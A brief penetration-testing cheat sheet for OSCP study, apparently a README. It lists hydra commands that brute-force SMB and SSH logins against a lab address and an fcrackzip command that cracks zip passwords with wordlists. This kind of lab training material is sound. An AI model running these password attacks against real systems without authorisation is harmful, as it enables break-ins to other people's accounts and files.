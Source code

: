# Offensive Security Testing Guide
This cheat sheet is the compilation of commands to exploit the vulnerable machines. The commands below may not be enough for you to obtain your Offensive Security Certified Professional (OSCP).

Dictionary Attack
```bash
hydra -L <user_dict> -P <pwd_dict> 192.168.56.1 smb
hydra -L <user_dict> -P <pwd_dict> 192.168.56.1 ssh
```

```bash
fcrackzip -u -D -p <dictionary_file> <zip_file>
```
